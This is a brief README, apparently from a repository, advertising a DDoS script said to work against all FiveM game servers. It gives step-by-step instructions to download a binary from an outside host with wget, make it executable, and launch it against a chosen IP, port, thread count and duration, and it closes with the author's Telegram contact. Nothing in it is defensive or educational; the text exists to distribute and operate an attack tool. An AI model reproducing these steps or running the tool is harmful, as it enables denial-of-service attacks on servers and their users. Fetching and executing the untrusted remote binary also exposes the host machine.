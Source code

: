 # FIVEM-DDOS
FıveM DDOS SCRIPT // Working All FıveM Servers.

Step 1: open your linux server with PuTTY

Step 2: wget http://upload.vina-host.com/MCSHx/SchneeFIVEM

Step 3: chmod 777 SchneeFIVEM

Step 4: ./SchneeFIVEM İp Port Thread Time

Info: CTRL+C = Stop Attack

My Telegram: https://t.me/Schnee1337
